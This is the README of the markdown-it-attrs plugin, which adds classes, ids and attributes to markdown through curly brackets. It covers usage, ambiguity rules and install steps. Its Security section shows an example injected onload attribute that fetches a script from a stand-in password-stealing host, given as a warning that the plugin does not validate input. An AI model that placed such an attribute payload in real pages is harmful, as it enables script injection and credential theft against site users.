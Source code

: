 # markdown-it-attrs [![Build Status](https://travis-ci.org/arve0/markdown-it-attrs.svg?branch=master)](https://travis-ci.org/arve0/markdown-it-attrs) [![npm version](https://badge.fury.io/js/markdown-it-attrs.svg)](http://badge.fury.io/js/markdown-it-attrs)

Add classes, identifiers and attributes to your markdown with `{.class #identifier attr=value attr2="spaced value"}` curly brackets, similar to [pandoc's header attributes](http://pandoc.org/README.html#extension-header_attributes).

Example input:
```md
# header {.style-me}
paragraph {data-toggle=modal}
```

Output:
```html
<h1 class="style-me">header</h1>
<p data-toggle="modal">paragraph</p>
```

Works with inline elements too:
```md
paragraph *style me*{.red} more text
```

Output:
```html
<p>paragraph <em class="red">style me</em> more text</p>
```

And fenced code blocks:
<pre><code>
```python {data=asdf}
nums = [x for x in range(10)]
```
</code></pre>

Output:
```html
<pre><code data="asdf" class="language-python">
nums = [x for x in range(10)]
</code></pre>
```

You can use `..` as a short-hand for `css-module=`:

```md
Use the css-module green on this paragraph. {..green}
```

Output:
```html
<p css-module="gree">Use the css-module green on this paragraph.</p>
```


## Security
**NOTE!**

`markdown-it-attrs` does not validate attribute input. You should validate your output HTML if security is a concern (use a whitelist).

For example, a user may insert rogue attributes like this:
```js
![](img.png){onload=fetch(https://imstealingyourpasswords.com/script.js).then(...)}
```

## Install

```
$ npm install --save markdown-it-attrs
```


## Usage

```js
var md = require('markdown-it')();
var markdownItAttrs = require('markdown-it-attrs');

md.use(markdownItAttrs);

var src = '# header {.green #id}\nsome text {with=attrs and="attrs with space"}';
var res = md.render(src);

console.log(res);
```

[demo as jsfiddle](https://jsfiddle.net/arve0/hwy17omn/)


## Ambiguity
When class can be applied to both inline or block element, inline element will take precedence:
```md
- list item **bold**{.red}
```

Output:
```html
<ul>
<li>list item <strong class="red">bold</strong></li>
<ul>
```

If you need the class to apply to the list item instead, use a space:
```md
- list item **bold** {.red}
```

Output:
```html
<ul>
<li class="red">list item <strong>bold</strong></li>
</ul>
```

If you need the class to apply to the `<ul>` element, use a new line:
```md
- list item **bold**
{.red}
```

Output:
```html
<ul class="red">
<li>list item <strong>bold</strong></li>
</ul>
```

If you have nested lists, curlys after new lines will apply to the nearest `<ul>` or `<ol>`. You may force it to apply to the outer `<ul>` by adding curly below on a paragraph by its own:
```md
- item
  - nested item {.a}
{.b}

{.c}
```

Output:
```html
<ul class="c">
  <li>item
    <ul class="b">
      <li class="a">nested item</li>
    </ul>
  </li>
</ul>
```

This is not optimal, but what I can do at the momemnt. For further discussion, see https://github.com/arve0/markdown-it-attrs/issues/32.

If you need finer control, [decorate](https://github.com/rstacruz/markdown-it-decorate) might help you.


## Custom blocks
`markdown-it-attrs` will add attributes to any `token.block == true` with {}-curlies in end of `token.info`. For example, see [markdown-it/rules_block/fence.js](https://github.com/markdown-it/markdown-it/blob/760050edcb7607f70a855c97a087ad287b653d61/lib/rules_block/fence.js#L85) which [stores text after the three backticks in fenced code blocks to `token.info`](https://markdown-it.github.io/#md3=%7B%22source%22%3A%22%60%60%60js%20%7B.red%7D%5Cnfunction%20%28%29%20%7B%7D%5Cn%60%60%60%22%2C%22defaults%22%3A%7B%22html%22%3Afalse%2C%22xhtmlOut%22%3Afalse%2C%22breaks%22%3Afalse%2C%22langPrefix%22%3A%22language-%22%2C%22linkify%22%3Atrue%2C%22typographer%22%3Atrue%2C%22_highlight%22%3Atrue%2C%22_strict%22%3Afalse%2C%22_view%22%3A%22debug%22%7D%7D).

Remember to [render attributes](https://github.com/arve0/markdown-it-attrs/blob/a75102ad571110659ce9545d184aa5658d2b4a06/index.js#L100) if you use a custom renderer.

## License

MIT © [Arve Seljebu](http://arve0.github.io/)
